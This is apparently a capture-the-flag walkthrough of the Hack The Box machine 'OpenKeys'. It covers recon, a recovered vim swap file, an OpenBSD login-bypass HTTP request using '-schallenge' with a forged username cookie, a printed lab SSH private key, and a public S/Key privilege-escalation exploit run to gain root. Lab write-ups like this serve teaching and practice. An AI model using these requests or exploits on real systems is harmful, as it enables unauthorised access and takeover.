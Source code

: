 # Target

OpenBSD

CTF-CVE

10.10.10.199

# Recon

`nmap target`

`nmap -p- -T4 target`

`dirb http://target`

`sudo nmap -p 22,80 -sV -sC --script vuln target`

Found intersting swap file for a authentication program? - http://10.10.10.199/includes/auth.php.swp

Can run `vim -r auth.php.swp` to open

```
┌─[monty@parrot]─[~/ctfs/htb/boxes/openkeys/recon]─[Fri 01 Jan 2021 03:55:11 AM CST]
└──╼ $file auth.php.swp 
auth.php.swp: Vim swap file, version 8.1, pid 49850, user jennifer, host openkeys.htb, file /var/www/htdocs/includes/auth.php
```

possible username, jennifer

interesting snippet

```
  3 function authenticate($username, $password)
  4 {
  5     $cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
  6     system($cmd, $retcode);
  7     return $retcode;
  8 }
```

another one, sets user with cookie
```
 42 function init_session()
 43 {
 44     $_SESSION["logged_in"] = True;
 45     $_SESSION["login_time"] = $_SERVER['REQUEST_TIME'];
 46     $_SESSION["last_activity"] = $_SERVER['REQUEST_TIME'];
 47     $_SESSION["remote_addr"] = $_SERVER['REMOTE_ADDR'];
 48     $_SESSION["user_agent"] = $_SERVER['HTTP_USER_AGENT'];
 49     $_SESSION["username"] = $_REQUEST['username'];
 50 }
```

Found http://10.10.10.199/auth_helpers/check_auth and downloaded it

Executable file
┌─[monty@parrot]─[~/ctfs/htb/boxes/openkeys/recon]─[Fri 01 Jan 2021 03:55:11 AM CST]
└──╼ $file check_auth 
check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped

String in exe - `auth_userokay`

# Exploitation

authentication bypass - https://thehackernews.com/2019/12/openbsd-authentication-vulnerability.html

```
POST /index.php HTTP/1.1
Host: 10.10.10.199
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://10.10.10.199
DNT: 1
Connection: close
Referer: http://10.10.10.199/index.php
Cookie: PHPSESSID=gbq4vke50gu50subglkl1ple13
Upgrade-Insecure-Requests: 1

username=-schallenge&password=tmp
```

Stole Jennifer's SSH key
```
POST /index.php HTTP/1.1
Host: 10.10.10.199
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://10.10.10.199
DNT: 1
Connection: close
Referer: http://10.10.10.199/index.php
Cookie: username=jennifer
Upgrade-Insecure-Requests: 1

username=-schallenge&password=tmp
```

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Got user

```
openkeys$ wc -c user.txt                                                                           
      33 user.txt
openkeys$ hostname;pwd;id
openkeys.htb
/home/jennifer
uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
```

# Privilege Escalation

.cshrc file with this as the path, same as PATH in bash? I can control ~/bin

`set path = (~/bin /bin /sbin /usr/{bin,sbin,X11R6/bin,local/bin,local/sbin,games})`

Sticky bit, wheel group, root owned
```
openkeys$ ls -lh /usr/local/bin/check\_auth
-rwsr-sr-x  1 root  wheel  12.0K Jan 13  2020 /usr/local/bin/check\_auth
openkeys$ id
uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
```

Local privesc, need jennifer's password for CVE-2019-19519 - https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/

Trying https://raw.githubusercontent.com/secf00tprint/local-exploits/master/CVE-2019-19520/openbsd-authroot at Fri 01 Jan 2021 06:01:54 AM CST

Exploit failed, resetting box and trying again. Believed to fail because it had already been done and had not been reset

Completed at Fri 01 Jan 2021 06:11:11 AM CST
```
openkeys$ chmod +x openbsd-authroot 
openkeys$ ./openbsd-authroot                                                                       
openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
[*] checking system ...
[*] system supports S/Key authentication
[*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
[*] compiling ...
[*] running Xvfb ...
[*] testing for CVE-2019-19520 ...
[+] success! we have auth group permissions

WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

[*] trying CVE-2019-19522 (S/Key) ...
Your password is: EGG LARD GROW HOG DRAG LAIN
otp-md5 99 obsd91335
S/Key Password:
openkeys# id;hostname                                                                           
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys.htb
```
